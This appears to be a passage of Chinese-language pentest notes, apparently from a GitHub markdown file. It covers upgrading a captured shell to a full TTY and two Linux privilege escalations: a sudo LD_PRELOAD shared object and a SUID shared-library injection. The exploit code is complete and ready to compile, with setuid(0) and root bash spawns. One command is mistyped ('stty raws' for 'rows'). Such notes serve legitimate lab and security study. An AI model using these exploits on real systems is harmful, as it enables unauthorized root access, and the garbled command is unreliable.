




#### shell交换性提升
获取立足点后，发现产生的shell不能用光标进行移动。不能删除。需要使用命令来提升交互性。

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z //把shell放到后台

stty raw -echo;fg //将键盘全部输入，无回显，并且切换到前台
   xterm-color//取决当前的终端类型
   
//当执行成功时候，可以调节终端的大小
stty raws 59 cols 194

```

可以使用命令查看当前终端信息
按下CTRL+Z后显示

在终端中输入，如图所示，别忘了输入reset


通过查看当前终端参数进行shell的调整




#### sudo环境提权
``` C
#include <stdio.h>
#include <stdlib.h> //方便调用system这样的函数
#include <sys/types.h>
void _init(){
    unsetenv("LD_PRELOAD");   //这里必须先卸载环境，否则子进程bash又会继承LD_PRELOAD这个so文件，导致无线递归
    setuid(0);
    setgid(0);//  types.h文件库存储linux的数据结构信息
    system("/bin/bash");//以root权限起一个bash
}
```

``` bash
gcc -shared -fPIC -o shell.so shell.c -nostartfiles
//nostartfiles选项告诉gcc编译器，我不需要你给我添加文件信息。这里so文件在main函数之前执行靠的的是linux系统中对于_init()优先执行
```



#### SUID 共享库注入提权

``` C
#include <stdio.h>
#include <stdlib.h>
static void Inject() __attribute__((constructor));//有了这一行gcc就不需要加nostartfiles这个选项
void Inject(){
     setuid(0);
     system("/bin/bash -p");
}
```


